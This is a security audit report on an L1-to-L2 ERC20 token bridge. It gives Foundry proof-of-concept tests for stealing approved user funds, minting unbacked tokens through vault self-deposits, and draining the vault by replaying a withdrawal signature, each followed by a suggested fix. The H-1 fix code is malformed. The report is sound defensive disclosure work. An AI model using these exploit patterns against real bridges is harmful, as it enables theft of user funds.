

<head>
  <title>Simple bridge mechanism to move our ERC20 token from L1 to an L2</title>
</head>

<div style="display: flex; flex-direction: column; justify-content: center; align-items: center; height: 100vh;">
  
  <p align="center">
    Prepared by: <a href="https://linkedin.com/in/anselmotitla">Anselmo Ramon Sanchez Titla</a>
  </p>
</div>

<!-- Your report starts here! -->

<!-- Lead Auditors:
- xxxxxxx -->

<!-- Use ctrl + shift + p => Markdown All in One: Create Table of Contents -->

<!-- <div style="page-break-before: always;"></div> -->

# Table of Contents

- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High](#high)
    - [\[H-1\] In the function `TokenFactory::deployToken` the use of create does not work on zksync network breaking the protocol.](#h-1-in-the-function-tokenfactorydeploytoken-the-use-of-create-does-not-work-on-zksync-network-breaking-the-protocol)
    - [\[H-2\] In the function `L1BossBridge::depositTokensToL2` if a user approves `L1BoosBridge.sol` as spender, any other user can still the funds of that user.](#h-2-in-the-function-l1bossbridgedeposittokenstol2-if-a-user-approves-l1boosbridgesol-as-spender-any-other-user-can-still-the-funds-of-that-user)
    - [\[H-3\] In the function `L1BossBridge::depositTokensToL2` can mine tokens infinitely destroying the protocol](#h-3-in-the-function-l1bossbridgedeposittokenstol2-can-mine-tokens-infinitely-destroying-the-protocol)
    - [\[H-4\] An attacker can steal all the funds by using again and again the off chain signature v, r, s without even having to deposite some token](#h-4-an-attacker-can-steal-all-the-funds-by-using-again-and-again-the-off-chain-signature-v-r-s-without-even-having-to-deposite-some-token)
  - [Low](#low)
    - [\[L-1\] Unchecked return in the function `L1Vault::approveTo` might not perform the approval breaking the functionality of moving out funds from L2 when requested.](#l-1-unchecked-return-in-the-function-l1vaultapproveto-might-not-perform-the-approval-breaking-the-functionality-of-moving-out-funds-from-l2-when-requested)
  - [Informational](#informational)
    - [\[I-1\] The variable `L1Vault::token` should be immutable causing more gas and more cost](#i-1-the-variable-l1vaulttoken-should-be-immutable-causing-more-gas-and-more-cost)
    - [\[I-2\] The variable `L1BossBridge::DEPOSIT_LIMIT` should be constant causing more gas and more cost](#i-2-the-variable-l1bossbridgedeposit_limit-should-be-constant-causing-more-gas-and-more-cost)

# Protocol Summary

<!-- You can get this info from the README.md of the repository that is being in the proccess of security review research, almost at the beggining of the file .md-->

The bridge allows users to deposit tokens, which are held into a secure vault on L1. Successful deposits trigger an event that our off-chain mechanism picks up, parses it and mints the corresponding tokens on L2.

To ensure user safety, this first version of the bridge has a few security mechanisms in place:

- The owner of the bridge can pause operations in emergency situations.
- Because deposits are permissionless, there's an strict limit of tokens that can be deposited.
- Withdrawals must be approved by a bridge operator.

# Disclaimer

The Anselmo Ramon Sanchez Titla team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details

**The findings described in this document correspond to the following commit hash:**

<!-- You can get this info from the README.md at the # Audit Scope Details -->

- Commit Hash: 07af21653ab3e8a8362bf5f63eb058047f562375

## Scope

<!-- You can get this info from the README.md -->

```
./src/
└── L1BossBridge.sol
└── L1Token.sol
└── L1Vault.sol
└── TokenFactory.sol

```

## Roles

<!-- You can get this info from the README.md -->

- Bridge Owner: A centralized bridge owner who can:
  - pause/unpause the bridge in the event of an emergency
  - set `Signers` (see below)
- Signer: Users who can "send" a token from L2 -> L1.
- Vault: The contract owned by the bridge that holds the tokens.
- Users: Users mainly only call `depositTokensToL2`, when they want to send tokens from L1 -> L2.

# Executive Summary

<!-- _Add some notes about how the audit went, types of things you found, etc._ -->

<!-- _We spent X hours with Z auditors using Y tools. etc_ -->

We spent 50 hours with 3 auditors using manual review, aderyn, slither finding the below vulnerabilities classified from high to informational

## Issues found

<!-- To format the below table -->
<!-- ctrl + shift + p: Format Document  or  shift + alt + f -->

| Severity     | Number of issues found |
| ------------ | ---------------------- |
| High         | 4                      |
| Medium       | 0                      |
| Low          | 1                      |
| Infomational | 2                     |
| Gas          | 0                      |
| total        | 7                      |

# Findings

## High

### [H-1] In the function `TokenFactory::deployToken` the use of create does not work on zksync network breaking the protocol.

**Description:**

Using create/create2 in assembly blocks is unsafe, because the compiler will most likely silently produce broken bytecode.

**Impact:**

This will lead to security vulnerabilities and unreachable code. For more info about this: https://docs.zksync.io/zksync-protocol/differences/evm-instructions?utm_source=chatgpt.com.

If using this only in ethereum, please make sure to check that addr is not the address zero.


**Proof of Concept:**

```solidity
    function deployToken(string memory symbol, bytes memory contractBytecode) public onlyOwner returns (address addr) {
        assembly {
            addr := create(0, add(contractBytecode, 0x20), mload(contractBytecode)) 
        }
        s_tokenToAddress[symbol] = addr;
        emit TokenDeployed(symbol, addr);
    }
```

**Recommended Mitigation**

```diff
    function deployToken(string memory symbol, bytes memory contractBytecode) public onlyOwner returns (address addr) {
-        assembly {
-            addr := create(0, add(contractBytecode, 0x20), mload(contractBytecode)) 
-        }
+        MyContract myContract a = new MyContract();
+        require(address(myContract) != address(0));
-        s_tokenToAddress[symbol] = addr;
+        s_tokenToAddress[symbol] = address(myContract);
-        emit TokenDeployed(symbol, addr);
+        emit TokenDeployed(symbol, address(myContract));
    }
```

### [H-2] In the function `L1BossBridge::depositTokensToL2` if a user approves `L1BoosBridge.sol` as spender, any other user can still the funds of that user.

**Description:**

Once a user has approved token to the `L1BossBridge`, any other user can invoke the function `L1BossBridge::depositTokensToL2` transferring the tokens, mining or crediting to that user just indicating that in the second parameter `L1BossBridge::depositTokensToL2(address from, address l2Recipient, uint256 amount)`.

**Impact:**

The impact is clear, an attacker can steal the funds of all users that approve `L1BossBridge` by doing some frunt running.

**Proof of Concept:**

Jus copy and paste this code snipet in `L1TokenBridge.t.sol` and execute it.

```solidity
    function testCanMoveApproveTokensOfOtherUsers() public {
        // poor alice approving
        vm.prank(user);
        token.approve(address(tokenBridge), type(uint256).max);

        // Bob
        uint256 depositAmount = token.balanceOf(user);
        address attacker = makeAddr("attacker"); 
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(user, attacker, depositAmount);
        tokenBridge.depositTokensToL2(user, attacker, depositAmount); 

        assertEq(token.balanceOf(user), 0);
        assertEq(token.balanceOf(address(vault)), depositAmount);
        vm.stopPrank();
    }
```

**Recommended Mitigation**

Just add a require statement.

```diff
    function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+       require(msg.sender == from, "not user");
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }

        token.safeTransferFrom(from, address(vault), amount);

        emit Deposit(from, l2Recipient, amount);
    }

```

### [H-3] In the function `L1BossBridge::depositTokensToL2` can mine tokens infinitely destroying the protocol

**Description:**

In the body of the function `L1BossBridge::depositTokensToL2` tokens are send from "from" to `L1Valut.sol` but from can be `L1Valut.sol` and can be credited to an attacker user and this action can be done infinely times.

**Impact:**

This simply breaks the protocols, as funds can be drain rightaway by an attacker.

**Proof of Concept:**

Just copy and paste this code snip in your `L1TokenBridge.t.sol` and execute it.

```solidity
    function testCanTransferFromVaultToVault() public {
        address attacker = makeAddr("attacker");

        uint256 vaultBalance = 500 ether;
        deal(address(token), address(vault), vaultBalance);

        // Can trigger the deposi event, self transfer tokens to the vault 
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), attacker, vaultBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance); 

        // Can do this forever
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), attacker, vaultBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance); 
    }
```

**Recommended Mitigation**

Just add a require statement indicating that from is not `L1Vault.sol`.


```diff
    function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+       require(from != address(vault), "Unauthorize operation to Vault");
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
        
        token.safeTransferFrom(from, address(vault), amount);

        emit Deposit(from, l2Recipient, amount);
    }
```

### [H-4] An attacker can steal all the funds by using again and again the off chain signature v, r, s without even having to deposite some token

**Description:**

An user can withdraw some tokens asking the operator to sign for that transaction off chain, then an attacker can reuse this off chain signature to steal the same amount of funds require by the previous user but a lot of times until the protocol is left with no tokens stored.

**Impact:**

Breaking the main functionality of the protocol not being secure.

**Proof of Concept:**

Just copy and paste the folowing code snip in your `L1TokenBridge.t.sol` and execute that test to see how the funds are steal from the protocol.

```solidity
    function testIsNotNeccessaryAttackerToDepositToDrainFunds() public {
        vm.startPrank(user);
        uint256 userInitialBalance = token.balanceOf(address(user));
        uint256 depositAmount = 100 ether;
        token.approve(address(tokenBridge), depositAmount);
        tokenBridge.depositTokensToL2(user, userInL2, depositAmount);

        assertEq(token.balanceOf(address(vault)), depositAmount);
        assertEq(token.balanceOf(address(user)), userInitialBalance - depositAmount);

        uint256 attackerAmount = 1 ether;
        address attacker = makeAddr("attacker");
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(_getTokenWithdrawalMessage(attacker, attackerAmount), operator.key);
        
        tokenBridge.withdrawTokensToL1(attacker, attackerAmount, v, r, s);

        for(uint i =0; i<99; i++ ){
            tokenBridge.withdrawTokensToL1(attacker, attackerAmount, v, r, s);
        }

        console2.log(token.balanceOf(attacker)/1e18);
    }
```

**Recommended Mitigation**

You can use a mapping in your smart contract to control which signatures has been use. Also you can add a nonce, the address of the Bridge contract and the chainId in the message to avoid replaying the same off chain signature in other smart contract or other networks like zksync.

## Low

### [L-1] Unchecked return in the function `L1Vault::approveTo` might not perform the approval breaking the functionality of moving out funds from L2 when requested.

**Description:**

The approve function in an ERCC20 token returns true on full execution and false otherwise

**Impact:**

In case of failing the approve function returns false and does not revert.

**Proof of Concept:**

```solidty
    function approveTo(address target, uint256 amount) external onlyOwner {
        token.approve(target, amount);
    }
```

**Recommended Mitigation**

```diff
    function approveTo(address target, uint256 amount) external onlyOwner {
-     token.approve(target, amount);
+     bool result = token.approve(target, amount);
+     require(result, "fail on approval");  
    }
```


## Informational

### [I-1] The variable `L1Vault::token` should be immutable causing more gas and more cost

**Description:**

In order to save gas the variables declare as immutable are not part of the storage, but they are part of the bytecode thus not increasing gas costs, so if `L1Vault::token` won't change in other parts of the solidity code it is reccomended to declare it as immutable to save gas costs.

**Impact:**

The variable `L1Vault::token` as not being updated just at deployment it is better to declare it as immutable to save gas costs

**Proof of Concept:**

```
 IERC20 public token;
```

Adding immutable to an IERC20 reference (e.g., IERC20 public immutable token;) can save around 5,000-6,000 gas compared to a non-immutable declaration.

**Recommended Mitigation**

<details>
<summary>Proof of code</summary>

```diff
- IERC20 public token;
+ IERC20 public immutable token;
```

</details>

### [I-2] The variable `L1BossBridge::DEPOSIT_LIMIT` should be constant causing more gas and more cost

**Description:**

In order to save gas the variables declare as constant are not part of the storage, but they are part of the bytecode thus not increasing gas costs, so if `L1BossBridge::DEPOSIT_LIMIT` won't change in other parts of the solidity code it is reccomended to declare it as constant to save gas costs.

**Impact:**

The variable `L1BossBridge::DEPOSIT_LIMIT` as not being updated nowhere in the code it is better to declare it as constant to save gas costs

**Proof of Concept:**

```solidity
    uint256 public DEPOSIT_LIMIT = 100_000 ether;
```

**Recommended Mitigation**

```diff
-    uint256 public DEPOSIT_LIMIT = 100_000 ether;
+    uint256 public constant DEPOSIT_LIMIT = 100_000 ether;
```